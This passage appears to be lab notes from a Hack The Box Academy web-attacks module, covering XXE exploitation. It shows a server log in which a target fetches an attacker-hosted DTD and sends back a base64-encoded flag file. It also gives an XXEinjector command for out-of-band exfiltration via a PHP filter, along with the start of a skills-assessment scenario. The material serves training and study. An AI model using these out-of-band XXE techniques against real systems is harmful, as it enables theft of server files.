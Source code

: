 ```zsh
php -S 0.0.0.0:8000   
[Fri Jul 11 11:28:50 2025] PHP 8.4.8 Development Server (http://0.0.0.0:8000) started
[Fri Jul 11 11:28:55 2025] 10.129.6.13:51826 Accepted
[Fri Jul 11 11:28:55 2025] 10.129.6.13:51826 [200]: GET /xxe.dtd
[Fri Jul 11 11:28:55 2025] 10.129.6.13:51826 Closing
[Fri Jul 11 11:28:56 2025] 10.129.6.13:51828 Accepted
[Fri Jul 11 11:28:56 2025] 

<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>

[Fri Jul 11 11:28:56 2025] 10.129.6.13:51828 [200]: GET /?content=PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K
[Fri Jul 11 11:28:56 2025] 10.129.6.13:51828 Closing
[Fri Jul 11 11:28:56 2025] 10.129.6.13:51830 Accepted
[Fri Jul 11 11:28:56 2025] 

```

### Automated

```zsh
ruby /opt/XXEinjector/XXEinjector.rb --host=10.10.14.206 --httpport=8000 --file=req.txt --path=/327a6c4304ad5938eaf0efb6cc3e53dc.php --oob=http --phpfilter
```

# Web Attacks - Skills Assessment

---

## Scenario

You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.

The login details are provided in the question below.

#### Questions
 Authenticate to with user "htb-student" and password "Academy_student!"

+ 5  Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.

Giao diện đăng nhập chính
